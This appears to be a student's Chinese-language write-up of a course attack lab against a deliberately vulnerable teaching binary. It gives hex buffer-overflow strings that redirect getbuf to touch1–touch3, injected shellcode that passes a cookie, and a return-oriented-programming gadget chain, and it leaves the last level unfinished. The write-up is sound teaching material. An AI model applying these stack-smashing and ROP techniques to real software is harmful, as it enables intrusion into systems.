





#	Attack Lab

姓名：龚X

学号：PB17030XX8

##	Code Injecting Attacks

###	Level 1

需要注入的代码

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

很明显针对`getbuf（）`进行注入攻击。

`getbuf（）`汇编

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以利用滑步修改getbuf的返回地址为Touch1的地址。

Touch1的地址

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

所以我们的字符串即为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果



###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为



###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。



为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果



##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：



需要说明的是，不使用用%rax，使用别的寄存器也是可以完成攻击的。

###	Level 5

与level 3类似。

注入的字符串结构组织

```assembly
溢出区
gadgetk 地址
.......
.......
touch3 地址
cookie
```

大致知道怎么做，但是好麻烦。（留着以后写，如果以后我还能想起来的话）
